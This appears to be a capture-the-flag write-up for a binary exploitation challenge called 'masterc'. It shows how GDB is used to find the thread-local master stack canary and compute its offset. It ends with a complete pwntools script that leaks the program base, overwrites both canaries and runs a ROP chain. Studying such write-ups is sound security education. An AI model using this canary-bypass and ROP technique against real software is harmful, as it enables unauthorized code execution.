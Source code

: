 Let's now find our master canary. After a few ``ni`` prompts in GDB, we find ourselves at the canary comparison.

```
0x555555555473 <win+61>    xor    rax, qword ptr fs:[0x28]
0x55555555547c <win+70>    je     win+77 <win+77>

0x55555555547e <win+72>    call   __stack_chk_fail@plt <__stack_chk_fail@plt>
```

This compares our input canary with the master canary at `fs_base + 0x28`.

Since we want to overwrite the master canary, we have to find the offset of master canary from our input. Hence we need the address of the master canary.

We can easily do that in GDB:

```
pwndbg> x/1xg $fs_base+0x28

0x7ffff7dc4728:	0x25fc24ba22307b00
```

where our address of master canary is `0x7ffff7dc4728`.

Doing some calculations we get our canary and master canary offset from our input.

`Input: 0x7ffff7dc3ed0`

`Offset to canary: 0x7ffff7dc3ee8 - 0x7ffff7dc3ed0 = 24`

`Offset to master canary: 0x7ffff7dc4728 - 0x7ffff7dc3ed0 = 2136`

With that, we can overwrite our canary and now we have ourselves a simple ROP to win.

_ret2system did not work for this challenge, possibly due to the threaded function, but presence of a syscall gadget allows us to simply SIGROP execve_


## Final Script
---

```py
from pwn import *

p = remote('masterc.2021.3k.ctf.to', 9999)
libc = ELF('libc-2.31.so')
context.binary = elf = ELF('masterc')

p.sendline(b'1')
p.sendline(b'1')
p.sendline(b'A')
p.recvuntil('You entered ')
leak = int(p.recvuntil(' ').strip())

setnotries = leak - 39
elf.address = setnotries - elf.sym.set_number_of_tries

log.info(f"Elf base: {hex(elf.address)}")
log.info(f"Leak: {hex(leak)}")

fake_canary = b'A'*8

rop = ROP(elf)
rop.call(rop.ret[0])
rop.puts(elf.got.puts) # leak libc address to bypass libc ASLR
rop.win()

p.sendline(flat({ 24: fake_canary, 40: rop.chain(), 2136: fake_canary}))

```